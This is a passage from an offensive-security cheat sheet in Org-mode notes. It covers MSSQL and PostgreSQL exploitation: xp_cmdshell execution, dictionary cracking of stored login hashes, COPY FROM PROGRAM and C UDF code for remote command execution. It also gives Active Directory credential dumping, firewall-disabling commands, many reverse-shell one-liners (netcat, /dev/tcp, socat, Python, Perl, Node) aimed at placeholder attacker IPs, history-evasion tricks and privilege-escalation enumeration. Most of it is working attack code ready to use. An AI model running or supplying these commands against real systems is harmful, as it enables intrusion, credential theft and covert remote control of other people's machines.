       #+end_src
**** Linux
***** mssqlclient.py
      - [[https://github.com/SecureAuthCorp/impacket/blob/master/examples/mssqlclient.py][Site]] - Impacket mssqlclient.py:
        #+begin_src sh
          mssqlclient.py <DOMAIN/><user>@<ip> -windows-auth
          # Check the -k and -hashes flags
        #+end_src
***** sqsh
      - [[https://github.com/vonloxley/sqsh][Site]] - Multi SQL shell:
        #+begin_src sh
          # Supports what mssqlclient doesn't
          sqsh -U <user> -P <pass> -D <db> -S <ip/server>
          # Use 'go' to run the SQL queries
          # & 'go -m pretty' -> better output
        #+end_src
*** Linked Servers
**** List
     - From [[https://database.guide/2-ways-to-return-a-list-of-linked-servers-in-sql-server-using-t-sql/][here]]:
       #+begin_src sql
         -- Name only
         SELECT name FROM sys.servers

         -- Name and maybe IP
         SELECT name, data_source FROM sys.servers

         -- All info
         EXEC sp_linkedservers
       #+end_src
**** Execute Queries
     - From [[https://dba.stackexchange.com/a/115204][here]]:
       #+begin_src sql
         -- Use external double quotes and
         -- internal single quotes if needed
         EXEC <name-linked-server>.[master].sys.sp_executesql N'SELECT @@VERSION;'
         -- N'<query>' doesn't limit length

         -- Or
         EXEC('SELECT SYSTEM_USER;') AT <name-linked-server>

          -- Use double quotes in the name
          -- if it contains backslashes
       #+end_src
     - Check whether the access from the linked server to the current one has higher privileges ([[https://book.hacktricks.xyz/windows/active-directory-methodology/mssql-trusted-links][Trusted Link]]):
       #+begin_src sql
         EXEC "<linked-srv>".[master].sys.sp_executesql N'EXEC(''SELECT SYSTEM_USER;'') AT "<current-srv>"'
       #+end_src
*** Enumeration
    - List databases:
      #+begin_src sql
        SELECT name FROM sys.databases

        -- In detail via information_schema
        SELECT * FROM app.information_schema.tables;
      #+end_src
    - List table columns and type:
      #+begin_src sql
        SELECT COLUMN_NAME, DATA_TYPE FROM app.information_schema.columns WHERE TABLE_NAME = 'master';
      #+end_src
    - Extract version - error based
      #+begin_src sql
        cast(@@version as integer);
      #+end_src
*** Cheatsheets
    - MSF - ~auxiliary/admin/mssql/mssql_enum~
    - [[https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet][Pentestmonkey]]
    - [[https://book.hacktricks.xyz/pentesting/pentesting-mssql-microsoft-sql-server][HackTricks]]
*** Execute System Commands
    - From [[https://www.sqlshack.com/use-xp-cmdshell-extended-procedure/][here]]:
      #+begin_src sql
        -- You may need to execute it in a DB
        USE master

        -- Check for high privileges
        SELECT IS_SRVROLEMEMBER('sysadmin')

        -- Enable the feature
        EXEC sp_configure 'show advanced option', '1'
        RECONFIGURE WITH OVERRIDE

        EXEC sp_configure 'xp_cmdshell', 1
        RECONFIGURE

        -- Use the feature
        xp_cmdshell '<shell-command>'

        -- You may need to use EXEC
        EXEC xp_cmdshell '<shell-command>'

        -- Or SELECT
        SELECT xp_cmdshell '<shell-command>'

        -- OR
        SELECT * FROM xp_cmdshell '<shell-command>'
      #+end_src
*** Execute Scripts
    - Scripts may be executed in a different user with higher privileges than IIS:
      #+begin_src sql
        EXEC sp_configure 'external scripts enabled', 1
        RECONFIGURE WITH OVERRIDE

        -- Python and R are supported langs
        sp_execute_external_script @language =N'Python', @script=N'import os;os.system("whoami")'

        -- R variant
        sp_execute_external_script @language =N'R', @script=N'shell("whoami", NULL)'
      #+end_src
*** Write Text Files Without xp_cmdshell
    - From [[https://blog.sqlauthority.com/2019/08/04/how-to-write-in-text-file-from-t-sql-in-sql-server-interview-question-of-the-week-236/][here]]:
      #+begin_src sql
        -- Step 1: Enable Ole Automation Procedures
        sp_configure 'show advanced options', 1
        RECONFIGURE

        sp_configure 'Ole Automation Procedures', 1
        RECONFIGURE
        -- You may need to use EXEC and OVERRIDE:
        EXEC sp_configure 'show advanced option', '1'
        RECONFIGURE WITH OVERRIDE

        -- Step 2: Write Text File
        DECLARE @OLE INT
        DECLARE @FileID INT
        EXECUTE sp_OACreate 'Scripting.FileSystemObject', @OLE OUT
        EXECUTE sp_OAMethod @OLE, 'OpenTextFile', @FileID OUT, 'C:\<file-path>.txt', 8, 1
        EXECUTE sp_OAMethod @FileID, 'WriteLine', Null, '<string>'
        EXECUTE sp_OADestroy @FileID
        EXECUTE sp_OADestroy @OLE
      #+end_src
*** Create Backup to disk
    - From [[https://stackoverflow.com/a/122737][here]]:
      #+begin_src sql
        BACKUP DATABASE <database> TO DISK='C:\<path+name>' WITH FORMAT
      #+end_src
    - Find more examples in [[https://docs.microsoft.com/en-us/sql/relational-databases/backup-restore/create-a-full-database-backup-sql-server?view=sql-server-ver15#a-back-up-to-a-disk-device][docs.microsoft]]
*** List Users
    #+begin_src sql
      SELECT name, password from syslogins
    #+end_src
*** Bruteforce Passwords
    - The rockyou dictionary needs to be trimmed for the attack as the [[https://docs.microsoft.com/en-us/sql/t-sql/functions/pwdcompare-transact-sql?view=sql-server-ver15][PWDCOMPARE function has an input length limit]]: ~perl -ine 'print if not @seen{$_}++ and length $_ < 129' rockyou.txt~
    - Note that older Windows Server versions are case-insensitive so use ~tr '[A-Z]' '[a-z]'~ before the previous perl (or add ~lc~ to the ~seen~ hash population)
    - The rockyou dictionary fits in its entirety if properly trimmed
    - Note that the ROWTERMINATOR is extremely important to get it right [[https://www.mssqltips.com/sqlservertip/4648/sql-server-bulk-insert-row-terminator-issues/][0x0a -> Unix/Windows 0x0d -> Mac]]
    - [[https://www.sqlshack.com/security-testing-sql-logins-with-the-pwdcompare-function/#urvanov-syntax-highlighter-6076b7c0c6e5f924579045][Modern T-SQL commands for bruteforcing]]
    #+begin_src sql
      -- Most efficient (due to short circuit) that works in Windows Server 2000
      --------------------------------------
      -- Note that the crack will take more than one hour
      --------------------------------------
      -- The length of @sName is kept at minimum to prevent long headings
      --------------------------------------
      CREATE TABLE #tmp(checkPass NVARCHAR(128))
      BULK INSERT #tmp FROM 'C:\WINNT\Temp\rockyou.txt' WITH (ROWTERMINATOR = '0x0a')

      DECLARE login_cursor CURSOR FOR SELECT name, password FROM syslogins ORDER BY createdate
      OPEN login_cursor

      DECLARE @sName NVARCHAR(10), @sPass NVARCHAR(128)
      FETCH NEXT FROM login_cursor INTO @sName, @sPass
      WHILE @@FETCH_STATUS = 0
      BEGIN
      SELECT @sName UNION SELECT TOP 1 checkPass FROM #tmp WHERE PWDCOMPARE(checkPass, @sPass) = 1
      FETCH NEXT FROM login_cursor INTO @sName, @sPass
      END
      CLOSE login_cursor
      DEALLOCATE login_cursor
      DROP TABLE #tmp

      --------------------------------------
      -- For at least Windows Server 2006 it may be possible to use the WITH <name> as ( select ... ) select ... <name> or use CROSS APPLY with another query or function (used like the INNER JOIN below but allowing short-circuiting)
      --------------------------------------
      CREATE TABLE #tmp(checkPass NVARCHAR(128))
      BULK INSERT #tmp FROM 'C:\WINNT\Temp\rockyou.txt' WITH (ROWTERMINATOR = '0x0a')

      CREATE FUNCTION passCheck(@pass VARBINARY(128))
      RETURNS TABLE AS RETURN ( SELECT TOP 1 * FROM #tmp WHERE PWDCOMPARE(checkPass, @pass) = 1 )
      SELECT s.name, t.checkPass FROM syslogins s CROSS APPLY passCheck(s.password) t
      DROP TABLE #tmp

      --------------------------------------
      -- Not short circuit but without loop works in Windows Server 2000
      --------------------------------------
      CREATE TABLE #tmp(CheckValue NVARCHAR(1000))

      BULK INSERT #tmp FROM 'C:\rockyou.txt' WITH (ROWTERMINATOR = '0x0a')

      SELECT s.name AS name, t.CheckValue AS password FROM syslogins s INNER JOIN #tmp t ON PWDCOMPARE(t.CheckValue, s.password) = 1

      --------------------------------------
      -- This one iterates over the dictionary instead of the syslogins (less efficient)
      --------------------------------------
      -- Pipe osql -E -Q "<inline-query>" | findstr /v /C:"^ ----" /C:"(1 row affected)" /C:"^ name" /C:"^$"
      -- Or use the -o <output> flag
      --------------------------------------
      declare file_cursor CURSOR FOR SELECT CheckValue FROM #tmp
      OPEN file_cursor
      DECLARE @passCmp sysname
      FETCH NEXT FROM file_cursor INTO @passCmp
      WHILE @@FETCH_STATUS = 0
      BEGIN
      SELECT NAME FROM syslogins WHERE PWDCOMPARE(@passCmp, password) = 1 UNION SELECT @passCmp
      FETCH NEXT FROM file_cursor INTO @passCmp
      END
      CLOSE file_cursor
      DEALLOCATE file_cursor

      --------------------------------------
      -- Unefficient while loop
      --------------------------------------
      WHILE (SELECT COUNT(*) FROM #tmp WHERE line IS NOT NULL) > 0
      BEGIN
      SELECT TOP 1 @passCmp = line FROM #tmp
      SELECT NAME FROM syslogins WHERE PWDCOMPARE(@passCmp, password) = 1 UNION ALL SELECT @passCmp
      DELETE FROM #tmp WHERE line = @passCmp
      END
    #+end_src
** PostgreSQL
*** Enumeration
    - Version and current user
      #+begin_src sql
        SELECT version();

        SELECT current_user;
      #+end_src
    - List databases
      #+begin_src sql
        SELECT datname FROM pg_database;

        -- Show only user created (public) ones
        SELECT table_name FROM app.information_schema.tables WHERE table_schema = 'public';
      #+end_src
    - List columns and types from a table
      #+begin_src sql
        SELECT column_name, data_type FROM app.information_schema.columns WHERE table_name = 'user';
      #+end_src
    - Extract version - error based
      #+begin_src sql
        cast(version() AS integer);
      #+end_src
*** Read/Write Files
    - Use *Large Objects* for binary files instead
    - Read using function:
      #+begin_src sql
        SELECT pg_read_file('/etc/passwd');
      #+end_src
    - Read using auxiliary table:
      #+begin_src sql
        -- Requires table creation permissions
        CREATE TABLE tmp(DATA text);

        COPY tmp FROM '/etc/passwd';

        SELECT * FROM tmp;

        DROP TABLE tmp;
      #+end_src
*** Read/Write Large Objects
    - List Large Objects:
      #+begin_src sql
        -- IDs only
        \lo_list

        -- IDs and PageNo (LOBLKSIZE: default 2K)
        SELECT loid, pageno FROM pg_largeobject;
        -- Files larger than 2K are split

        -- IDs and data content
        SELECT loid, encode(data, 'escape') FROM pg_largeobject;
        -- Read access to LOs is subject to ACL
        -- Note that newly created LOs might have
        -- different read perm than existing ones
      #+end_src
    - Create LO:
      #+begin_src sql
        -- Create and return new ID
        SELECT lo_create(-1);

        -- Create using given OID
        SELECT lo_create(1234);
      #+end_src
    - Insert binary content (base64 enc) to a LO:
      #+begin_src sql
        -- See below for how to split
        -- First 2K data
        INSERT INTO pg_largeobject (loid, pageno, data) values (<OID>, 0, decode('<b64-chunk1>', 'base64'));

        -- Second 2K data
        INSERT INTO pg_largeobject (loid, pageno, data) values (<OID>, 1, decode('<b64-chunk2>', 'base64'));
      #+end_src
    - Split file in 2K chunks + encode them:
      #+begin_src sh
        split -b 2048 pg_exec.so

        # Base64 - Zsh only
        for f (x*) base64 -w0 $f && echo

        # Hex - Posix
        for f in x*; do od -An -tx1 -v $f | tr -d ' \n' && echo; done
      #+end_src
    - Read files as LO:
      #+begin_src sql
        -- Returns the ID of the LO
        SELECT lo_import('<file-path>');
        -- UNC paths work on Windows platforms

        -- Read and assign a LO ID
        SELECT lo_import('<file-path>', 1234);
      #+end_src
    - Update content of LO with hex data:
      #+begin_src sql
        UPDATE pg_largeobject SET data=decode('<hex>', 'hex') WHERE loid=1234 AND pageno=0;
        -- <hex> is 'deadbeef', not '0xfeedcafe'
      #+end_src
    - Write LO to file:
      #+begin_src sql
        SELECT lo_export(1234, '<file-path>');
      #+end_src
    - Delete LO:
      #+begin_src sql
        \lo_unlink 1234

        -- or using SELECT
        SELECT lo_unlink(1234);

        -- Delete all
        SELECT lo_unlink(l.oid) FROM pg_largeobject_metadata l;
      #+end_src
*** RCE - COPY FROM PROGRAM
    - [[https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md#cve-20199193][Ref]] - Only if COPY is available - >= 9.3
      #+begin_src sql
        DROP TABLE IF EXISTS cmd_exec;
        CREATE TABLE cmd_exec(cmd_output text);

        -- Run system command
        COPY cmd_exec FROM PROGRAM '<sys-cmd>';

        SELECT * FROM cmd_exec;
        DROP TABLE IF EXISTS cmd_exec;
      #+end_src
*** RCE - UDF
**** PostgreSQL < 9.0
     - Linux
       #+begin_src sql
         CREATE OR REPLACE FUNCTION system(cstring) RETURNS int AS '/lib/x86_64-linux-gnu/libc.so.6', 'system' LANGUAGE 'c' STRICT;
       #+end_src
     - Windows
       #+begin_src sql
         -- Windows
         CREATE OR REPLACE FUNCTION system(cstring) RETURNS int AS 'C:\Windows\System32\kernel32.dll', 'WinExec' LANGUAGE C STRICT;
      #+end_src
     - Execute:
       #+begin_src sql
         SELECT system('<command>');
       #+end_src
     - Remove UDF:
       #+begin_src sql
         DROP FUNCTION system(cstring);
       #+end_src
**** PostgreSQL >= 9.0
     - From version 11.0 loading shared libraries is only allowed under ~<root-path>/PostgreSQL/11/lib~
       - Write the LO shared lib to ~<root-path>/PostgreSQL/11/data~ and load it using a relative path:
         #+begin_src sql
           -- Linux
           CREATE OR REPLACE FUNCTION pg_exec(cstring) RETURNS int AS '../data/pg_exec', 'pg_exec' LANGUAGE C STRICT;

           -- Windows
           CREATE OR REPLACE FUNCTION pg_exec(text) RETURNS int AS '..\data\pg_exec', 'pg_exec' LANGUAGE C STRICT;
           -- No .so or .dll extension required
         #+end_src
     - Linux UDF - ~pg_exec.c~
       #+begin_src c
         #include <string.h>
         #include "postgres.h"
         #include "fmgr.h"

         #ifdef PG_MODULE_MAGIC
         PG_MODULE_MAGIC;
         #endif

         PG_FUNCTION_INFO_V1(pg_exec);
         Datum pg_exec(PG_FUNCTION_ARGS) {
             char* command = PG_GETARG_CSTRING(0);
             PG_RETURN_INT32(system(command));
         }
       #+end_src
     - Compile from Docker
       #+begin_src sh
         # Create shared folder
         mkdir /tmp/pgdocker

         # Place pg_exec.c in /tmp/pgdocker

         # See: https://hub.docker.com/_/postgres
         docker run -it --rm -v "/tmp/pgdocker:/mnt/pgdocker:rw" --entrypoint /bin/bash postgres:<version>

         # Inside the docker img
         cd /mnt/pgdocker

         apt update

         # Find the Postgres major+minor version
         postgres -V

         apt install --no-install-recommends -y gcc libc-dev postgresql-server-dev-<major-minor-ver>

         gcc -I$(pg_config --includedir-server) -shared -fPIC -o pg_exec.so pg_exec.c

         exit

         # On host system
         docker rmi postgres:<version>
       #+end_src
     - Windows - ~pg_exec.c~
       #+begin_src c
         #include "postgres.h"
         #include <string.h>
         #include <stdio.h>
         #include "fmgr.h"
         #include "utils/geo_decls.h"
         #include "utils/builtins.h"

         #ifdef PG_MODULE_MAGIC
         PG_MODULE_MAGIC;
         #endif

         /* Add a prototype marked PGDLLEXPORT */
         PGDLLEXPORT Datum pg_exec(PG_FUNCTION_ARGS);
         PG_FUNCTION_INFO_V1(pg_exec);

         /* Define function */
         Datum
         pg_exec(PG_FUNCTION_ARGS)
         {
           /* convert text pointer to C string */
         #define GET_STR(textp) DatumGetCString(DirectFunctionCall1(textout, PointerGetDatum(textp)))

           /*launch the process passed in the first parameter*/
           ShellExecute(NULL, "open", GET_STR(PG_GETARG_TEXT_P(0)), NULL, NULL, 1);
           PG_RETURN_VOID();
         }
       #+end_src
     - Compile:
       - Create a DLL Visual Studio project
       - *Properties* > *General* > *Character Set*:
         - ~Use Multi-Byte Character Set~
       - Include the following dirs in *C/C++*:
         #+begin_src text
           c:\Program Files (x86)\PostgreSQL\<version>\include\server\port\win32_msvc;c:\Program Files (x86)\PostgreSQL\<version>\include\server\port\win32;c:\Program Files (x86)\PostgreSQL\<version>\include\server;c:\Program Files (x86)\PostgreSQL\<version>\include;%(AdditionalIncludeDirectories)
         #+end_src
       - Include the following dir for in *Linker*:
         #+begin_src text
           c:\Program Files (x86)\PostgreSQL\<version>\lib;%(AdditionalLibraryDirectories)
         #+end_src
       - Set *Link Library Dependency* to ~No~
       - Build Project
     - Windows rev shell DLL: [[https://zerosum0x0.blogspot.com/2016/06/windows-dll-to-shell-postgres-servers.html][site]]
       - Just loading the DLL launches the shell
         #+begin_src sql
           CREATE OR REPLACE FUNCTION dummy_function(int) RETURNS int AS '<path\to>\dummy_function.dll', 'dummy_function' LANGUAGE C STRICT;
         #+end_src
** Oracle DB
*** Enumeration
    - List version and current user
      #+begin_src sql
        SELECT * FROM v$version;

        -- user is a function
        -- dual is a valid placeholder table
        SELECT user FROM dual;
        -- the user is not necessarily the OS one
      #+end_src
    - List databases
      #+begin_src sql
        -- List all schemas by user
        SELECT owner FROM all_tables GROUP BY owner;

        -- List all tables in a schema
        SELECT table_name FROM all_tables WHERE owner = 'SYS' ORDER BY table_name;
        -- Tables may contain a $ (mainly system)
      #+end_src
    - List columns and types from a table
      #+begin_src sql
        SELECT column_name, data_type FROM all_tab_columns WHERE table_name = 'main';
      #+end_src
    - Extract version - error based
      #+begin_src sql
        to_char(
          dbms_xmlgen.getxml(
            'select "'||
              (select substr(banner,0,30) from v$version where rownum=1)
            ||'" from sys.dual'
          )
        );
      #+end_src
** SOQL - Salesforce SQL
  - Limited SQL without:
    - UNION
    - Wildcards
    - String concat
    - Almost all functions except COUNT()
  - Strings are single quotes only
  - Usage of AND followed by OR require parentheses: ~... OR (...)~
  - Left member of comparison must be a column from the table being queried
  - Inner/Outer tables must differ from main one
  - Outer join limited to ID only:
    #+begin_src sql
        SELECT Name FROM table WHERE Id IN (SELECT Id FROM other_table ...)
    #+end_src
  - No apparent limitation for Inner join:
    #+begin_src sql
        SELECT Id, (SELECT Name FROM other_table) FROM table
    #+end_src

* Encryption
** Notes
   - Key-based alphabetic ciphers may reveal the key through [[https://en.wikipedia.org/wiki/Known-plaintext_attack][KPA]] using known-whitespace-trimmed-text as key
** Websites
*** Boxentriq
    - [[https://www.boxentriq.com/code-breaking/cipher-identifier][Site]] - Identify and crack ciphers
*** CyberChef
    - [[https://gchq.github.io/CyberChef/][Site]] ([[https://github.com/gchq/CyberChef][github]]) - Multi-crypto site
    - Use [[https://github.com/gchq/CyberChef/wiki/Automatic-detection-of-encoded-data-using-CyberChef-Magic][Magic]] mode to detect encodings
*** SCWF
    - [[https://scwf.dima.ninja/][Site]] - Auto-crack cryptos (chaotic)
*** Crypto Site - One Time Pad
    - [[http://rumkin.com/tools/cipher/otp.php][Site]] - Multiple crypto tools
*** quipqiup
    - [[https://quipqiup.com][Site]] - Automated crypto/cipher solver
** Tools
*** Ciphey
    - [[https://github.com/Ciphey/Ciphey][Site]] - AI auto-cracker
      #+begin_src sh
        ciphey -t "<hash/encrypt>"
        # -w <wlist> - Words found in -t
        # -q - Quiet - Don't show progress
      #+end_src
*** RsaCtfTool
    - [[https://github.com/Ganapati/RsaCtfTool][Site]] - Crack RSA/recover private key:
      #+begin_src sh
        # Obtain private RSA from .pub
        RsaCtfTool.py --publickey <key.pub> --private
        # sagemath and opt-depends required

        # Uncipher file
        RsaCtfTool.py --publickey <key.pub> --uncipherfile <file>

        # Convert to PEM format
        RsaCtfTool.py --publickey <key.pub> --convert_idrsa_pub
      #+end_src
*** GPG
    - [[https://gnupg.org/][Site]] - GPG tool - [[https://guides.library.illinois.edu/data_encryption/gpgcheatsheet][Cheatsheet]]
      #+begin_src sh
        # Import keys (public/private)
        gpg --import file.gpg

        # Decrypt messages
        gpg --decrypt msg.enc

        # List private keys
        gpg --list-secret-keys

        # Delete private key
        gpg --delete-secret-keys <key>

        # Delete public key
        gpg --delete-key <key>
      #+end_src
*** Decodify
   - [[https://github.com/s0md3v/Decodify][Site]] - Find hashes on the net + ROT:
     #+begin_src sh
       dcode "<hash>"

       # All ROT (lowercase output)
       dcode -rot all "<hash>"
     #+end_src
*** Subbreaker
    - [[https://gitlab.com/guballa/SubstitutionBreaker][Site]] - En/decode/break classic crypto:
      #+begin_src sh
        subbreaker break --text "<text>"
        # --lang EN by default
      #+end_src
*** ROT
    - [[https://github.com/lucyoa/ctf-tools/blob/master/crypto/rot.py][Site]] - Perform ROT en/decoding:
      #+begin_src sh
        # All 25 ROT
        seq 25 | xargs -I{} ./rot.py "<str>" {}
      #+end_src
*** balbuzard
    - [[https://github.com/decalage2/balbuzard][Site]] - Extract and Crack encryption
      #+begin_src sh
        # Extracts
        bbharvest <file>

        # Cracks
        bbcrack <file>
      #+end_src

* Active Directory
** addspn.py
   - [[https://github.com/dirkjanm/krbrelayx][Site]] - SPNs Ops on AD accounts over LDAP
     #+begin_src sh
       # Add SPN to <target> in <ip/host>
       addspn.py -u <usr> -p <pass> -t <target-name> -s <SPN> <ip/host>
       # -a  - Use msDS-AdditionalDnsHostName
       # -r  - Remove
       # -q  - Show <target> SPNs
     #+end_src
** dnstool.py
   - [[https://github.com/dirkjanm/krbrelayx][Site]] - DNS Ops on ADIDNS rec over LDAP
     #+begin_src sh
       # Add DNS record fqdn+ip on <ip/host>
       dnstool.py -u "<dom>\<usr>" -p <pass> -a add -r <target-rec/fqdn> -d <data-rec/ip> <ip/host>
       # -a query      - Query records
       # --print-zones - Query zones
       # --zone <zone> - Zone to search in
       # --forest      - Look ForestDnsZones
       # See other -a options
     #+end_src
** gMSADumper
   - [[https://github.com/micahvandeusen/gMSADumper][Site]] - Dump service account pass (GMSA):
     #+begin_src sh
       gMSADumper.py -u <user> -p <pass> -d <dom>
       # -p <lm:ntlm>  - Pass the Hash auth
       # -l <dom.ctrl> - For Pass the Hash
       # -k            - Kerberos auth (+ -l)
     #+end_src

* Firewall
** CentOS
*** firewalld
    - Disable firewall:
      #+begin_src sh
        systemctl stop firewalld
      #+end_src
    - Check rules ([[https://www.tecmint.com/firewalld-rules-for-centos-7/][ref]]):
      #+begin_src sh
        # List all rules
        firewall-cmd --list-all

        # List rule-groups
        firewall-cmd --get-active-zones
        firewall-cmd --get-services

        # List rule group content
        firewall-cmd --zone=<rule> --list-all
        firewall-cmd --zone=<rule> --list-ports
      #+end_src
** Windows
   - Disable firewall:
     #+begin_src bat
       netsh firewall set opmode disable
     #+end_src
   - Allow ports by services:
     #+begin_src bat
       :: RDP access
       netsh firewall set service remoteadmin enable

       netsh firewall set service remotedesktop enable
     #+end_src
   - Allow ports by number:
     #+begin_src bat
       ufw allow from <ip> proto tcp to any port <port1>,<port2>...
     #+end_src

* Reverse/Bind shells + TTY
** Linux
*** Shells
**** Netcat Traditional/Ncat
     - Basic:
       #+begin_src sh
         # Use -u for UDP
         nc -n <ip> <port> -e /bin/sh

         ncat -n <ip> <port> -e /bin/sh
         # Or -c bash instead of -e
      #+end_src
**** Netcat OpenBSD
     #+begin_src sh
       rm -f /tmp/f; mkfifo /tmp/f; /bin/sh -i < /tmp/f 2>&1 | nc -n <ip> <port> > /tmp/f
     #+end_src
**** Netcat Busybox
     #+begin_src sh
       rm -f /tmp/f; mknod /tmp/f p; /bin/sh -i < /tmp/f 2>&1 | nc -n <ip> <port> > /tmp/f
     #+end_src
**** Socat
     - Client:
       #+begin_src sh
         socat EXEC:'bash -i',stderr TCP:<ip>:<port>
       #+end_src
     - Client PTY:
       #+begin_src sh
         socat EXEC:'bash -i',pty,ctty,stderr,setsid,sigint,sane TCP:<ip>:<port>
       #+end_src
     - Server PTY:
       #+begin_src sh
         # Use - instead of $(tty)
         socat GOPEN:$(tty),raw,echo=0 TCP-LISTEN:<port>
       #+end_src
**** OpenSSL
     - Client:
       #+begin_src sh
         rm -f /tmp/s; mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect <ip>:<port> > /tmp/s
       #+end_src
     - Server:
       #+begin_src sh
         # Generate the certificate
         openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes

         # Start the server
         openssl s_server -quiet -key key.pem -cert cert.pem -port <port>

         # Use ncat as alternative
         ncat --ssl -lnvp <port>
       #+end_src
**** Bash
     - Obtain a reverse-shell using bash:
       #+begin_src sh
         # UDP is also an option
         bash -i &>/dev/tcp/<ip>/8080 0>&1
       #+end_src
     - Detach it from the current process:
       #+begin_src sh
         nohup bash -c 'setsid bash -i &>/dev/tcp/<ip>/8080 0>&1 &' >/dev/null 2>&1 &
         # It may not work over webapps
       #+end_src
*** TTY/PTY Upgrade
**** Script
     #+begin_src sh
       exec /usr/bin/script -qc /bin/bash /dev/null
     #+end_src
**** Python
     - Using PTY:
       #+begin_src sh
         exec python -c "import pty; pty.spawn('/bin/sh')"
       #+end_src
     - Using Subprocess:
       #+begin_src sh
         exec python -c "__import__('subprocess').call(['/bin/bash'])"
       #+end_src
**** Perl
     - Using exec:
       #+begin_src sh
         exec perl -e "exec '/bin/sh';"
       #+end_src
     - Using backquotes:
       #+begin_src sh
         exec perl -e "print `/bin/sh`;"
       #+end_src
**** Socat
     #+begin_src sh
       socat EXEC:"/bin/sh -i",pty,ctty,stderr,setsid,sigint,sane -
     #+end_src
*** Full Interactivity
    - Check that the system can be upgraded:
      #+begin_src sh
        # stty needs to be available
        type stty

        # Or resize
        type resize

        # It may be hidden
        find / -name resize\* -type f 2>/dev/null

        # Or check whether $ROWS and $COLUMNS
        # are used:
        export
        set

        # Very recommended to be available
        type reset
      #+end_src
    - Background the shell with ~Ctrl-Z~
    - Obtain the size of the current terminal
      #+begin_src sh
        # The numbers are ROWS COLUMNS
        stty size

        # POSIX alternative
        stty -a | sed -n 's/.*\(\(\(rows\|columns\)[^;]*; \)\{2\}\).*/\1/p'

        # With tput
        echo 'lines\ncols' | tput -S
      #+end_src
    - Enable RAW mode + foreground the shell:
      #+begin_src sh
        stty raw -echo; fg
      #+end_src
    - Introduce the following blindly:
      #+begin_src sh
        # Set the terminal type
        export TERM=xterm-256color
        # Fallbacks:
        #   xterm, screen, linux, or dumb

        # Sustitute with the previous values
        stty rows <rows> cols <cols>

        # Or, if resize is available
        export ROWS=<rows>
        export COLUMNS=<cols>
        resize
      #+end_src
    - Apply the new changes:
      #+begin_src sh
        exec /bin/bash -i

        reset
      #+end_src
    - Final exports:
      #+begin_src sh
        export SHELL=/bin/bash
        export HOME=/tmp
        export PAGER=less
      #+end_src
** Windows
*** Shells
**** Netcat Traditional/Ncat
     - [[https://eternallybored.org/misc/netcat/][netcat]]
     - [[https://nmap.org/dist/ncat-portable-5.59BETA1.zip][ncat-portable-5.59BETA1]]
     - Note that non-interactive sessions will require ~cmd.exe~:
       #+begin_src bat
         cmd.exe /c nc.exe <ip> <port> -e cmd
       #+end_src
** Perl
   - Spawning a system shell oneliner
     #+begin_src sh
       perl -MSocket -e 'socket+S,2,1,6;connect+S,sockaddr_in+<port>,inet_aton"<ip-host>"or+die;open+STDIN,">&S";open+STDOUT,">&S";open+STDERR,">&S";exec"/bin/sh -i"'
     #+end_src
** Python
*** Socket
    - Spawning a system shell oneliner
      #+begin_src sh
        python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<ip-host>",<port>));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'
      #+end_src
    - Spawning a system shell with pty
      #+begin_src python
        import socket
        import os
        import pty

        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(("<ip-host>", <port>))

        os.dup2(s.fileno(), 0)
        os.dup2(s.fileno(), 1)
        os.dup2(s.fileno(), 2)

        pty.spawn("/bin/sh")
      #+end_src
** NodeJS
    - Spawning a system shell
      #+begin_src sh
        node -e '(function(){var sh = require("child_process").spawn("/bin/sh", []), cli = new require("net").Socket(); cli.connect(<port>, "<ip-host>", function(){cli.pipe(sh.stdin); sh.stdout.pipe(cli); sh.stderr.pipe(cli);}); return /a/;})();'
        # Set require is not there by default:
        # var r=global.process.mainModule.require
      #+end_src

* System Enumeration
** Linux
   - Prevent command logging:
     #+begin_src sh
       # Bash
       echo $HISTFILE

       export HISTFILE=/dev/null

       # Zsh
       # Also check HISTFILE
       echo $HISTFILE

       # Push a new history stack
       fc -p

       # Pop current history stack (deleting)
       fc -P
     #+end_src
   - List environment variables:
     #+begin_src sh
       echo $USER

       echo $HOME

       echo $SHELL

       echo $PWD

       echo $PATH

       # all
       export

       set

       # Modify for all programs in shell
       export VAR=<value>

       # Make it permanent for current user
       echo 'export VAR=<value>' >> ~/.bashrc
     #+end_src
   - Locate users that could be used for logging in:
     #+begin_src sh
       # Also check /etc/shadow
       grep -v 'nologin\|false' /etc/passwd
     #+end_src
   - User identification:
     #+begin_src sh
       whoami

       # User, Group, and Context ID
       id -a

       # Logged users
       who

       # Logged users - extra info
       who -a

       # Logged users + stats + login process
       w
     #+end_src
   - Permissions identification:
     #+begin_src sh
       # Check if sudo may be vulnerable
       sudo -V

       # Commands that can be run with sudo
       # without password prompting
       sudo -l
       # Also note: env_keep+=LD_PRELOAD

       # Same but for all users
       less /etc/sudoers

       # Find files with the SUID flag:
       find / \( -perm -4000 -o -perm -2000 \) -type f -ls 2>/dev/null
       # See how to leverage them:
       # https://gtfobins.github.io
       # Use ldd to detect missing libraries

       # Find folders with the S[UG]ID flags:
       find / \( -perm -4000 -o -perm -2000 \) -type d -ls 2>/dev/null
       # New files on such directories obtain
       # the folder's S[UG]ID automatically

       # Find everything else:
       find / \( -perm -4000 -o -perm -2000 \) \! -type f \! -type d -ls 2>/dev/null
       # Everything writable and executable
       # can be injected with evil code

       # Locate binaries with capabilities
       getcap -r / 2>/dev/null
       # CAP_SETUID allows privesc: GTFObins
       # Caps are retained in subprocesses

       # Users with capabilities
       less /etc/security/capability.conf

       # Sevices with capabilities
       grep -r 'AmbientCapabilities=' /etc/systemd
       # Other interesting Caps for privesc:
       # - CAP_SYS_ADMIN
       # - CAP_SYS_PTRACE
       # - CAP_SYS_MODULE
       # - CAP_DAC_READ_SEARCH
       # - CAP_DAC_OVERRIDE
       # - CAP_CHOWN
       # - CAP_FORMER
       # - CAP_SETGID
       # - CAP_SETFCAP
       # - CAP_SETUID
       # Caps that may aid in privesc:
       # - CAP_KILL
       # - CAP_NET_BIND_SERVICE
       # - CAP_NET_RAW
       # - CAP_NET_ADMIN + CAP_NET_RAW
       # - CAP_LINUX_IMMUTABLE
     #+end_src
   - List OS and version:
